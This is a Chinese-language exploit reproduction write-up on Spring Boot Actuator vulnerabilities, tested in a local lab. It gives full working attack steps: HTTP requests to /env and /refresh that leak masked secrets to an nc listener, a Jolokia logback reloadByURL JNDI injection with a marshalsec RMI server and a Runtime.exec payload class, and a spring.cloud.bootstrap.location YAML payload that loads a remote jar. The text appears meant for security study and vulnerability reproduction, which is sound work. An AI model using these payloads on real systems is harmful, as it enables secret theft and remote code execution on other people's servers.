## swagger-ui 接口

`/swagger-ui.html`

# SpringBoot env 获取* 敏感信息 (一)

当我们直接访问 springboot 站点时,可以看到某些 password 字段填充了*

1. 通过${name} 可以获取明文字段
2. 配置不当导致敏感信息泄露(password 打星号,而 pwd 没有打星号)


参考 `https://mp.weixin.qq.com/s/HmGEYRcf1hSVw9Uu9XHGsA`

具体实现过程:

例如: 我们要获取 pid 参数值

```
"PID": "10648",
```


```
POST /env HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

eureka.client.serviceUrl.defaultZone=http://${PID}@10.20.24.191:2444/

```
然后 post refresh 任意内容,触发漏洞

Ps: `一般情况需要等待3秒会有响应包，如果立即返回可能是服务缺少spring-boot-starter-actuator扩展包无法刷新漏洞则无法利用`

```
POST /refresh HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

12312
```

当服务器 nc 监听端口2444 时,接收到


```
root@kali:/tmp# nc -lvvp 2444
listening on [any] 2444 ...
connect to [10.20.24.191] from kali [10.20.24.191] 40960
GET /xstream/apps/ HTTP/1.1
Accept: application/json
DiscoveryIdentity-Name: DefaultClient
DiscoveryIdentity-Version: 1.4
DiscoveryIdentity-Id: 10.20.24.191
Accept-Encoding: gzip
Host: 10.20.24.191:2444
Connection: Keep-Alive
User-Agent: Java-EurekaClient/v1.4.11
Authorization: Basic MzgzNDY6bnVsbA==
```

`Authorization: Basic MzgzNDY6bnVsbA==`


base64 解码得到

```
root@kali:/tmp# echo MzgzNDY6bnVsbA== |base64 -d
38346:null
```
和上面的 pid 信息一样


同样 获取 `user.country`参数,步骤也一样

结果:
```
root@kali:/tmp# nc -lvvp 2555
listening on [any] 2555 ...
connect to [10.20.24.191] from kali [10.20.24.191] 38994
GET /xstream/apps/ HTTP/1.1
Accept: application/json
DiscoveryIdentity-Name: DefaultClient
DiscoveryIdentity-Version: 1.4
DiscoveryIdentity-Id: 10.20.24.191
Accept-Encoding: gzip
Host: 10.20.24.191:2555
Connection: Keep-Alive
User-Agent: Java-EurekaClient/v1.4.11
Authorization: Basic VVM6bnVsbA==

 sent 0, rcvd 310
```
base64 解码得到
```
root@kali:/tmp# echo VVM6bnVsbA== |base64 -d
US:null

```
## 脚本化

输入要查询的参数,输入 nc 监听的端口


监听端口,获取指定 header 头,自动 base64 解密


Ps: 如果您很幸运在目标类路径中具有Eureka-Client <1.8.7（通常包含在Spring Cloud Netflix中），则可以利用其中的XStream反序列化漏洞。

例如: `User-Agent: Java-EurekaClient/v1.4.11`


# SpringBoot_Actuator JNDI RCE 漏洞复现 (二)


## 0x01 环境搭建

`git clone https://github.com/veracode-research/actuator-testbed`

启动

```
mvn install
或
mvn spring-boot:run
```

通过编译运行,发现监听IP 地址为 `127.0.0.1`,只能本机访问
百度查找,修改为 `0.0.0.0` 就好了

查找关键文件

`grep -r 'server.address' -n ./`

```
./src/main/resources/application.properties:2:server.address=127.0.0.1
./target/classes/application.properties:2:server.address=127.0.0.1
```
改为

```
server.port=8090
server.address=0.0.0.0

# vulnerable configuration set 0: spring boot 1.0 - 1.4
# all spring boot versions 1.0 - 1.4 expose actuators by default without any parameters
# no configuration required to expose them

# safe configuration set 0: spring boot 1.0 - 1.4
#management.security.enabled=true

# vulnerable configuration set 1: spring boot 1.5+
# spring boot 1.5+ requires management.security.enabled=false to expose sensitive actuators
#management.security.enabled=false

# safe configuration set 1: spring boot 1.5+
# when 'management.security.enabled=false' but all sensitive actuators explicitly disabled
#management.security.enabled=false

# vulnerable configuration set 2: spring boot 2+
#management.endpoints.web.exposure.include=*
```


## 0x02 重启启动

`mvn spring-boot:run`

或

```
/opt/jdk1.8.0_60//bin/java -classpath /opt/apache-maven-3.6.2/boot/plexus-classworlds-2.6.0.jar -Dclassworlds.conf=/opt/apache-maven-3.6.2/bin/m2.conf -Dmaven.home=/opt/apache-maven-3.6.2 -Dlibrary.jansi.path=/opt/apache-maven-3.6.2/lib/jansi-native -Dmaven.multiModuleProjectDirectory=/root/actuator/actuator-testbed org.codehaus.plexus.classworlds.launcher.Launcher spring-boot:run

```

稍等片刻

```
root@kali:~/actuator/actuator-testbed# netstat -ntpl |grep 8090
tcp6       0      0 :::8090                 :::*                    LISTEN      33666/java
root@kali:~/actuator/actuator-testbed#
```
http://10.20.24.191:8090/


http://10.20.24.191:8090/jolokia/list 


中 reloadByURL 可以加载远程 url xml 文件


```
"ch.qos.logback.classic": {
"Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator": {
"op": {
"reloadByURL": {
"args": [
{
"name": "p1",
"type": "java.net.URL",
"desc": ""
}
],
"ret": "void",
"desc": "Operation exposed for management"
}
```

## 0x03 http 服务存放logback.xml,ExportObject.class


logback.xml 文件内容



```
<configuration>
  <insertFromJNDI env-entry-name="rmi://10.20.24.191:1099/Exploit" as="appName" />
</configuration>
```

ExportObject.java

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class ExportObject {
   public ExportObject() throws Exception {
      Process var1 = Runtime.getRuntime().exec("touch /tmp/jas502n");
      InputStream var2 = var1.getInputStream();
      BufferedReader var3 = new BufferedReader(new InputStreamReader(var2));

      String var4;
      while((var4 = var3.readLine()) != null) {
         System.out.println(var4);
      }

      var1.waitFor();
      var2.close();
      var3.close();
      var1.destroy();
   }

   public static void main(String[] var0) throws Exception {
   }
}

```
## 0x04 RCE触发

监听 rmi 端口

```
root@kali:~/ldap_rmi# cat rmi.sh
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://10.20.24.191:8000/#ExportObject


root@kali:~/ldap_rmi# ./rmi.sh
* Opening JRMP listener on 1099
Have connection from /10.20.24.191:43878
Reading message...
Is RMI.lookup call for ExportObject 2
Sending remote classloading stub targeting http://10.20.24.191:8000/ExportObject.class
Closing connection


```

浏览器访问加载远程logback.xml文件进行解析,

服务器访问恶意jndi 地址,导致恶意字节码代码执行

`http://10.20.24.191:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/10.20.24.191:8000!/logback.xml`



## 0x05 命令执行成功



```
root@kali:/var/www/html# ls /tmp/j*
/tmp/jas502n
root@kali:/var/www/html#
```
# YML RCE 漏洞复现 (三)

通过Spring环境`spring.cloud.bootstrap.location` 属性修改来实现RCE的方法更可靠

该属性用于加载外部配置并以YAML格式解析它。
为了实现这一点，任需要POST `/refresh` 任意内容触发漏洞。

## yaml_payload.yml 文件内容


```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.20.24.191:8000/yaml_payload.jar"]
  ]]
]
```

## 0x00 yaml_payload.jar 制造

代码 `https://github.com/artsploit/yaml-payload`



AwesomeScriptEngineFactory.java 部分代码
```
import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("touch /tmp/success");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
  `ymal_payload.jar\artsploit\AwesomeScriptEngineFactory.java `

包含实际的字节码，并在构造函数中带有恶意有效载荷。

  `ymal_payload.jar\services\javax.script.ScriptEngineFactory`

只是一个包含对'artsploit.AwesomeScriptEngineFactory'的完整引用的文本文件，
以便ServiceLoader知道在哪里可以找到该类

内容：`artsploit.AwesomeScriptEngineFactory`

jar 文件存在到http服务器中

http://10.20.24.191:8090/ymal_payload.jar

## 0x01 Set spring.cloud.bootstrap.location

`spring.cloud.bootstrap.location=http://10.20.24.191:8090/yaml_payload.yml`


```
POST /env HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

spring.cloud.bootstrap.location=http://10.20.24.191:8000/yaml_payload.yml
```

## 0x02 refresh post任意内容，RCE 漏洞触发



```
POST /refresh HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

12312
```
## 0x03 RCE 执行成功


```
root@kali:/var/www/html# ls /tmp/succ*
/tmp/success
root@kali:/var/www/html# 

```


Ps: 与Eureka的XStream有效负载相比，yaml的方法甚至可以在最新版本中使用。

## 参考链接

https://www.veracode.com/blog/research/exploiting-spring-boot-actuators

